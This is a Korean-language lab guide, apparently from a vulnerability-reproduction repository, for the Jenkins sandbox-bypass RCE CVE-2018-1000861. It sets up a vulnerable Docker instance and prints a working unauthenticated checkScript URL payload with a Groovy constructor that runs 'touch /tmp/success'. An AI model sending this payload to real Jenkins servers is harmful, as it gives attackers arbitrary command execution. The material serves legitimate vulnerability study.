



# Jenkins원격 명령 실행 취약성（CVE-2018-1000861）

Jenkins는 사용자가 URL PATH를 통해 한 번의 public 방법을 호출할 수 있도록 하는 Stapler 프레임워크를 사용하여 개발되었습니다. 이 프로세스를 제한하지 않기 때문에 공격자는 일부 민감한 Java 방법을 실행하기 위해 특수 PATH를 구성할 수 있습니다.

이 허점을 통해 우리는 이용할 수 있는 많은 이용 사슬을 찾을 수 있습니다. 가장 심각한 것은 Groovy 샌드박스를 우회하여 권한 없는 사용자가 임의 명령을 실행할 수 있게 하는 것입니다. Jenkins는 샌드박스에서 Groovy를 실행하기 전에 스크립트에 오류가 있는지 검사하고 검사 작업은 샌드박스가 없으며 공격자는 메타프로그래밍을 통해 이 단계를 검사할 때 임의 명령을 실행할 수 있습니다.


- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html


## 환경 조성
다음 명령을 실행하여 Jenkins 2.138을 시작합니다. 취약성을 포함하는 플러그인도 설치되었습니다.

```
docker compose up -d
```


환경이 시작된 후 http://your-ip:8080을 방문하면 성공적으로 초기화된 Jenkins를 볼 수 있으며 더 이상 작업이 필요하지 않습니다.





## 빈틈이 다시 나타나기

@orangetw를 사용하여 [POC 스크립트 원터치](https://github.com/orangetw/awesome-jenkins-rce-2019)다음과 같은 요청을 보내면 성공적으로 명령을 실행할 수 있습니다.

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```


`/tmp/success`성공적으로 생성：


